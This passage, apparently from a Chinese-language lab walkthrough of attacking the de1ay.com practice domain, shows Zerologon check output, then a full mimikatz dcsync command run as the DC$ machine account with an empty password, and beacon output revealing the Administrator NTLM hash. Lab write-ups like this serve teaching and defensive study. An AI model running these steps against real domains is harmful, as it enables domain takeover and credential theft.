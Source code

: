 ```
|  |  |
|  | NetrServerAuthenticate2: 0x00000000 |
|  | NetrServerPasswordSet2 : 0x00000000 |
|  |  |
|  | * Authentication: OK -- vulnerable |
|  | * Set password  : OK -- may be unstable |


```

看到`Set password : OK`


发起`dcsync`攻击，获得域控用户hash



```


|  | mimikatz lsadump::dcsync /domain:de1ay.com /dc:DC.de1ay.com /user:administrator /authuser:DC$ /authdomain:de1ay /authpassword:"" /authntlm |
| --- | --- |


```


```


|  | [+] host called home, sent: 750705 bytes |
| --- | --- |
|  | [+] received output: |
|  | [DC] 'de1ay.com' will be the domain |
|  | [DC] 'DC.de1ay.com' will be the DC server |
|  | [DC] 'administrator' will be the user account |
|  | [AUTH] Username: DC$ |
|  | [AUTH] Domain  : de1ay |
|  | [AUTH] Password: |
|  | [AUTH] Explicit NTLM Mode |
|  |  |
|  | Object RDN           : Administrator |
|  |  |
|  | ** SAM ACCOUNT ** |
|  |  |
|  | SAM Username         : Administrator |
|  | Account Type         : 30000000 ( USER_OBJECT ) |
|  | User Account Control : 00000200 ( NORMAL_ACCOUNT ) |
|  | Account expiration   : 1601/1/1 8:00:00 |
|  | Password last change : 2019/9/9 10:40:33 |
|  | Object Security ID   : S-1-5-21-2756371121-2868759905-3853650604-500 |
|  | Object Relative ID   : 500 |
|  |  |
|  | Credentials: |
|  | Hash NTLM: 161cff084477fe596a5db81874498a24 |


```
